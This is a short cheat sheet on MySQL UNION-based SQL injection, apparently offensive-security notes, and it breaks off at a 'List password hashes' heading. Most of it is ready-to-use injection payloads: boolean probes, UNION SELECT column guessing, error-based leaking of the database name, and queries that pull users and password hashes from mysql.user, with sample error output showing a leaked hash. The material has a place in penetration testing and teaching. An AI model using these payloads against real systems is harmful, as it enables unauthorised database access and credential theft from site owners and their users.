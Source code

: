 ## MySql UNION db leak

*   First, identify vulnerable parameter by causing true and false conditions:

    ```
    or 1=1 vs or 1=2
    and 1=2 vs and 1=1
    ```
* If the query is a select, the true should return all rows of the table and the other empty results.
*   Next step is to gess the number of columns, you can do that by sending an union statement, you will get an error until you guess it:

    ```
    id=1 union all select 1
    id=1 union all select 1,2
    id=1 union all select 1,2,3
    ...
    ```
*   You can get the name of the database by sending:

    ```
    ?id=1 union all select 1,2,3,4,5 from XXX
    Table 'gallery.XXX' doesn't existCould not select category
    ```
*   You can use a comment \*#\* to finish the query, in case there is a group by after the context of the injection. You can select the users and passwords form the database with:

    ```
    id=1 union all (select 1,2,3,4,5,6 from mysql.user)#
    ```
*   Leak the password:

    ```
    1 union (select password,2,3,4,5,6 from mysql.user)#
    ```
*   Should produce:

    ```
    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '*47FB3B1E573D80F44CD198DC65DE7764795F948E) order by dateuploaded desc limit 1' at line 1
    ```
*   Find current user

    ```
    SELECT user();
    SELECT system_user();
    ```
*   List all Users

    ```
    SELECT user FROM mysql.user;
    ```
*   List password hashes
